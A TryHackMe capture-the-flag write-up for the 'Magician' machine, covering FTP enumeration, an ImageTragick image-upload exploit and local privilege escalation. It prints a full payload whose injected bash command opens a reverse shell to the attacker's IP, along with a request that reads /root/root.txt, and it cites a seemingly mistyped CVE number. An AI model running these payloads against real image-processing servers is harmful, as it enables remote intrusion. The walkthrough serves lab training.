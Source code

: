 <h1> Tryhackme Magician Machine </h1>
<h3>by purpler0se</h3>
	<p>...enjoy :D</p>
<h2> Starting off with basic enumeration to get our ports </h2>
	<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/nmap.png">
	<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/etc.png">
	<h4> Now remembering what was instructed in the info for task one which was "Please add the IP address of this machine with the hostname 'magician'
		to your /etc/hosts file on linux before you start." (example above)</h4>
<h3> I checked out ftp port logging in as "anonymous" user with no password</h3><h4> ftp [MACHINE_IP] 21 </h4>
	<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/ftp.png">
<h3> I got prompted with this as i logged in. It told me a clue that will help us later in our payload</h3>
	</h4>https://imagetragick.com</h4>
</br>
<h1>Web enumeration</h1>
	<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/convert.png">

<h3> Port 8081 had a png to jpg converted which could be a ticket for our shell</h3>
	<h4>but port 8080,for now had nothing intresting</h4>
	<h3> with that given link (https://imagetragick.com) we can create a reverse shell payload</h3>
</br>
<h1> Creating the Png Payload </h2>
	<h3>On you local create a file with the extension .png shown in the commands below</h3>
		<h4>touch reverse.png</h4>
		<h4> nano reverse.png</h4>
	<h3>Paste this code in using an editor like vim or nano</h3>
		<h4>push graphic-context</h4>
		<h4>viewbox 0 0 640 480</h4>
		<h4>fill 'url(https://example.com";bash -c \'bash -i >& /dev/tcp/10.9.1.225/1557 0>&1\'")'</h4>
		<h4>pop graphic-context</h4>
		<h3>I've changed the original payload at https://imagetragick.com so it gives us a shell, further explaination of this exploit CVE-2016-3174 at https://imagetragick.com</h3></br>
			<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/payload.png">
		<h4>Your payload should look like this and when you run "file" on the payload u should get "ImageMagick Vector Graphic"</h4>
<h1> Getting a shell</h1>
	<h3>Setup a netcat listner on your local machine</h3>
	<h4> nc -lnvp [any_port]</h4>
		<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/upload.png">
	<h3> Now upload that payload and onces its submitted click on it and then just wait for a callback</h3>
		<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/shell.png">
	<h3>Once you get the callback upgrade your shell by doing the following commands</h3>
	<h4>export TERM=xterm</h4>
	<h4>python3 -c "import pty;pty.spawn('/bin/bash')"</h4>
	<h4>CTRL + Z</h4>
	<h4>BASH: stty raw -echo && fg</br>
	ZSH: stty raw -echo; fg
	</h4>
	<h4> and then WHACK your enter key 3x</h4>
	<h4> stty rows [yours] cols [yours] (You can find your rows and columns by doing stty -a on your local machine</h4>
<h1> From Magician to ROOT</h1>
		<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/hint.png">
	<h3>We got a hint in the home directory magician, file named "the_magic_continues," the giveaway to the priv esc is "locally listening" therefore its a internal ip priv esc 			situation.We can list the listening connection on the targets machine by doing</h3>
	<h4>netstat -ant</h4>
		<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/ips.png">
	<h3>As you can see the localhost on port 6666 is listening. I did the following command</h3>
		<h4> curl 127.0.0.1:6666</h4>
	<h3>And got the code for a simple input website - i think was suppose to be port 8081</h3>
	<h3>Now reading the source code u can see there is a input with the name "filename" so the code i used to send to this input is</h3>
		<h4>curl --request POST 'http://127.0.0.1:6666' --data "filename=/root/root.txt"</h4>
	<h3>I decrypted this by going to https://gchq.github.io/CyberChef/ and using the "From Hex" to get the THM{} flag</h3>
discord - purpler0se#6981
<h1> Thanks for reading my writeup on how i tackled this machine</h1>
	
	
	
	
